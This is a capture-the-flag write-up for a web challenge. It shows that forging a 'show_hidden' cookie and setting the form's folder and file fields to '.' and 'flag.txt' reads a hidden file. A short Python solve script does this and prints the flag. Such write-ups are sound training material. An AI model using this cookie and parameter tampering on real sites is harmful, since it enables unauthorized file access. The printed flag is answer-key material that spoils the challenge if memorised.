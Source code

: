 # attack-strategies (ez)

### Description

The StarCraft III Interplanetary Newbie Championship is almost live and I was assigned to take care of teaching everyone in the Newbie-84 planet how to play. I made a blog so each individual can choose their favorite races and strategies to learn before the tournament. I will secretly participate and to give them a change, I hid my go to strategy somewhere on the website. Wanna try finding it?

[http://vespene-gas.hackers.best:31337/](http://vespene-gas.hackers.best:31337/)

### Files

None

### Solution

Theres a cookie called `show_hidden` and its set to `false`, if set to `true` the list of folders will have an extra option called flag.txt, but selecting it wont work cuz its a file, i hade to send the request manually and set the folder to `.` and file to `flag.txt`.

[solve.py](solve.py)

```python
import requests
url = 'http://vespene-gas.hackers.best:31337/'
headers = {
    'Cookie': 'show_hidden=true'
}
content = {
    'folder_select': '.',
    'file_select': 'flag.txt',
}
r = requests.post(url, data=content, headers=headers)

print(r.text) # -> shctf{get_zerg_rushed_nb}
```
